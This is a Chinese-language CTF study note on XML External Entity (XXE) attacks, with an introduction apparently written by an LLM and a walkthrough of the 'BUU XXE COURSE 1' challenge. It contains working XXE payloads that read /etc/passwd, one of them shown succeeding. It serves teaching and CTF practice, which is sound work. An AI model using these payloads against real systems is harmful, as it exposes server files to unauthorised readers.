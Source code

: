 # XXE Attack

## Introduction from LLM

### XXE（XML External Entity）简介

XXE是一种攻击，它发生在应用程序解析XML输入时，没有正确地限制外部实体的引用。攻击者可以利用XXE执行以下操作：

- 访问服务器上的文件系统。
- 执行远程服务的请求。
- 导致拒绝服务攻击（例如，通过大量加载外部实体）。
- 探测内部网络（如果服务器可以访问内部网络）。

### XXE攻击的原理

XML是一种用于存储和传输数据的标记语言。在XML中，可以通过DTD（Document Type Definition）定义外部实体。外部实体允许XML文档包含来自外部源的数据。XXE漏洞发生在应用程序解析XML输入时，错误地处理了这些外部实体的引用。

以下是一个简单的XXE攻击示例：

```xml-dtd
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

在这个例子中，攻击者定义了一个名为`xxe`的外部实体，它将尝试读取服务器的`/etc/passwd`文件。当应用程序解析这个XML文档时，它将包含`/etc/passwd`文件的内容，并将其发送回攻击者。

### XXE在CTF中的利用

在CTF竞赛中，XXE漏洞通常用于以下目的：

1. **文件读取**：攻击者可能会尝试读取服务器上的敏感文件，例如配置文件、源代码或秘密密钥。
2. **服务器端请求伪造（SSRF）**：XXE可以用来对服务器可以访问的内部或外部服务发起请求。
3. **拒绝服务攻击**：通过包含大量数据的外部实体，攻击者可以使服务器资源耗尽。
4. **端口扫描**：攻击者可以使用XXE来探测服务器可访问的内部网络。



### Basic Challenge

`BUU XXE COURSE 1`

POST DATA:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
    <username>1</username>
    <password>2</password>
</root>
```

XML形式插入，可能存在XXE，用示例代码尝试：

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
    <username>&xxe;</username>
    <password>2</password>
</root>
```

成功